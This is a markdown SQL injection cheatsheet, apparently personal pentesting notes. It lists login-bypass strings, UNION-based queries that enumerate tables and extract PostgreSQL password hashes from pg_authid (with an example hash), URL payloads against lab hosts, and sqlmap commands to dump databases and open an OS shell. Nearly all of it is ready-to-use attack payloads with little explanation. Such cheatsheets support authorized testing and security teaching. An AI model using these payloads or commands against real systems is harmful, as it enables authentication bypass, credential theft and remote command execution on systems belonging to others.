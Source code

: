 # SQL Injection Cheatsheet

Testing for Bypasses:&#x20;

```
+-------------------------------+
|	  ' or 1=1 --		|
|	tom' or 1=1 LIMIT 1;#	|
|	  a' or 1=1 --	    	|
|	  " or 1=1 --	    	|
|	  a" or 1=1 --	    	|
|	  ' or 1=1 #	    	|
|	  " or 1=1 #	    	|
|	  or 1=1 --	    	|
|	  ' or 'x'='x	    	|
|	  " or "x"="x		|
|	  ') or ('x'='x	    	|
|	  ") or ("x"="x	    	|
| ' or username LIKE '%admin%   |
+-------------------------------+
|      USERNAME:  ' or 1/*      |
|      PASSWORD:  */ =1 --      |
+-------------------------------+
|  USERNAME: admin' or '1'='1   |
|  PASSWORD: '#		    	|
+-------------------------------+
'OR 1 OR'
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 -- -
```

## UNION Attacks:

Find number of columns by using ORDER by until you get an error for too many columns:

```
' ORDER by 1--
' ORDER by 2--
```

Find table\_names:

```
' UNION SELECT NULL,NULL,NULL,NULL,table_name from information_schema.tables--
```

Find columns:

```
'+UNION+SELECT+NULL%2CNULL%2CNULL%2CNULL%2Ccolumn_name+from+information_schema.columns+where+table_name='pg_authid'--
```

Get data we are looking for: rolname and rolpassword

```
'+UNION+SELECT+NULL%2CNULL%2CNULL%2CNULL%2Crolpassword+from+pg_authid--' 
```

postgres/md52d58e0637ec1e94cdfba3d1c26b67d01

## SQLMAP

### Copy POST request from burp and run with it

`sqlmap -r request.txt --dbms=mysql --dump`

### sqlmap crawl

`sqlmap -u http://172.21.0.0 --crawl=1`

### sqlmap dump database

`sqlmap -u http://172.21.0.0 --dbms=mysql --dump`

### sqlmap shell

`sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell`

## SQLI

Testing for a row:

* http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8

#### Get users table

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_s
chema.columns where table_name='users'
```

## Links

https://www.exploit-db.com/papers/12975&#x20;

https://www.exploit-db.com/papers/13045&#x20;

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md

(MSSQL) https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/ https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf
